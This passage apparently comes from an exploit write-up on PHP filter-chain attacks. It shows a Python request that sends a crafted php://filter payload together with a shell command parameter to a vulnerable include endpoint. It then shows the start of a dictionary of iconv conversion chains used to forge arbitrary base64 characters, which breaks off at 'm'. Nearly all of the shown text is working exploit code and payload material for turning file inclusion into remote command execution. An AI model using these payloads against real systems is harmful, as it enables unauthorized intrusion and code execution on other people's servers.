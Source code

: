 ```python
final_payload = f"php://filter/{filters}/resource={file_to_use}"

r = requests.get(url, params={
    "0": command,
    "action": "include",
    "file": final_payload
})

print(r.text)
```

### Improvements

The previous script is limited to the base64 characters needed for that payload. Therefore, I created my own script to **bruteforce all the base64 characters**:

```php
conversions = {
    '0': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
    '1': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.OSF1002035D.EUC-KR|convert.iconv.MAC-CYRILLIC.T.61-8BIT|convert.iconv.1046.CSIBM864|convert.iconv.OSF1002035E.UCS-4BE|convert.iconv.EBCDIC-INT1.IBM943',
    '2': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO6937.OSF1002011C|convert.iconv.CP1146.EUCJP-OPEN|convert.iconv.IBM1157.UTF8',
    '3': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO8859-7.CSISOLATIN3|convert.iconv.ISO-8859-9.CP905|convert.iconv.IBM1112.CSPC858MULTILINGUAL|convert.iconv.EBCDIC-CP-NL.ISO-10646',
    '4': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
    '5': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.RUSCII.IBM275|convert.iconv.CSEBCDICFR.CP857|convert.iconv.EBCDIC-CP-WT.ISO88591',
    '6': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO-IR-37.MACUK|convert.iconv.CSIBM297.ISO-IR-203',
    '7': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
    '8': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
    '9': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
    'a': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSIBM9066.CP1371|convert.iconv.KOI8-RU.OSF00010101|convert.iconv.EBCDIC-CP-FR.ISO-IR-156',
    'b': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CP1399.UCS4',
    'c': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.8859_9.OSF100201F4|convert.iconv.IBM1112.CP1004|convert.iconv.OSF00010007.CP285|convert.iconv.IBM-1141.OSF10020402',
    'd': 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
    'e': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.SHIFT_JISX0213|convert.iconv.IBM1164.UCS-4',
    'f': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213',
    'g': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022CN.CP855|convert.iconv.CSISO49INIS.IBM1142',
    'h': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.THAI8.OSF100201B5|convert.iconv.NS_4551-1.CP1160|convert.iconv.CP275.IBM297',
    'i': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.IBM943|convert.iconv.CUBA.CSIBM1140',
    'j': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO27LATINGREEK1.UCS-4BE|convert.iconv.IBM857.OSF1002011C',
    'k': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO88594.CP912|convert.iconv.ISO-IR-121.CP1122|convert.iconv.IBM420.UTF-32LE|convert.iconv.OSF100201B5.IBM-1399',
    'l': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.CSISO90.MACIS|convert.iconv.CSIBM865.10646-1:1993|convert.iconv.ISO_69372.CSEBCDICATDEA',
    'm': 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.GB_198880.CSSHIFTJIS|convert.iconv.NO2.CSIBM1399',
```